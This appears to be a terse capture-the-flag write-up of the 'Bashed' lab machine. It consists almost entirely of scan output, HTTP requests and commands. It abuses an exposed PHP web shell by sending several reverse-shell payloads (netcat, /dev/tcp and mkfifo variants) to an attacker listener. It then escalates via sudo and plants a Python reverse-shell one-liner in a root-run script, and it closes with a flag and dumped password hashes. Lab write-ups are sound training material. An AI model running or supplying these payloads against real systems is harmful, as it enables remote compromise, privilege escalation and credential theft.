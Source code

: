 # Bashed writeup

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site


![](2021-01-17-12-14-07.png)


I actually developed it on this exact server

![](2021-01-17-12-14-57.png)

![](2021-01-17-12-16-34.png)

![](2021-01-17-12-16-51.png)

![](2021-01-17-12-17-22.png)


```php
if (ISSET($_POST['cmd'])) {
    $output = preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1"));
    foreach ($output as $line) {
        echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";
    }
    die();
```

POST /dev/phpbash.php HTTP/1.1
Host: 10.10.10.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://10.10.10.68
Connection: close
Referer: http://10.10.10.68/dev/phpbash.php

cmd=nc -e /bin/bash 10.10.14.2 1234


nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-q seconds] [-s source]
	  [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]



bash -i >& /dev/tcp/10.10.14.2/1234 0>&1



```
POST /dev/phpbash.php HTTP/1.1
Host: 10.10.10.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 87
Origin: http://10.10.10.68
Connection: close
Referer: http://10.10.10.68/dev/phpbash.php


cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.2+1234+>/tmp/f
```

![](2021-01-17-12-23-41.png)

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


$ uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Linux kernel < 4.10.15 - Race Condition Privilege Escalation linux/local/43345.c



cat /home/arrexel/user.txt

arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash


[+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data
-rw-r--r-- 1 root root 2188 Aug 31  2015 /etc/bash.bashrc
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 655 Jun 24  2016 /etc/skel/.profile
-rw-r--r-- 1 arrexel arrexel 3786 Dec  4  2017 /home/arrexel/.bashrc
-rw-r--r-- 1 arrexel arrexel 655 Dec  4  2017 /home/arrexel/.profile
-rw-r--r-- 1 arrexel arrexel 0 Dec  4  2017 /home/arrexel/.sudo_as_admin_successful
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec  4  2017 /home/scriptmanager/.bashrc
-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec  4  2017 /home/scriptmanager/.profile
-rw-r--r-- 1 root root 3106 Oct 22  2015 /usr/share/base-files/dot.bashrc
-rw-r--r-- 1 root root 870 Jul  2  2015 /usr/share/doc/adduser/examples/adduser.local.conf.examples/bash.bashrc
-rw-r--r-- 1 root root 1865 Jul  2  2015 /usr/share/doc/adduser/examples/adduser.local.conf.examples/skel/dot.bashrc


www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


sudo -u scriptmanager bash
 sh linpeas.sh | tee lin.log


/usr/share/gcc-5



[+] Modified interesting files in the last 5mins (limit 100)                                                                                                              
/scripts/test.txt      
/home/scriptmanager/.gnupg/trustdb.gpg                                                                                                                                    
/home/scriptmanager/.gnupg/pubring.gpg                                                                                                                                    
/home/scriptmanager/.gnupg/gpg.conf                                                                                                                                       
/var/log/auth.log      
/var/log/syslog   


[+] Unexpected in root
/scripts               
/lost+found            
/initrd.img            
/vmlinuz               
        

[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group scriptmanager:
/scripts


scriptmanager@bashed:/scripts$ ls -lahg
total 16K
drwxrwxr--  2 scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root            12 Jan 17 03:48 test.txt



import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);



kali@kali:/opt/privesc/privilege-escalation-awesome-scripts-suite/linPEAS$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 47906
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 


cc4f0afe3a1026d402ba10329674a8e2


arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:0:99999:7:::
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0:17504:0:99999:7:::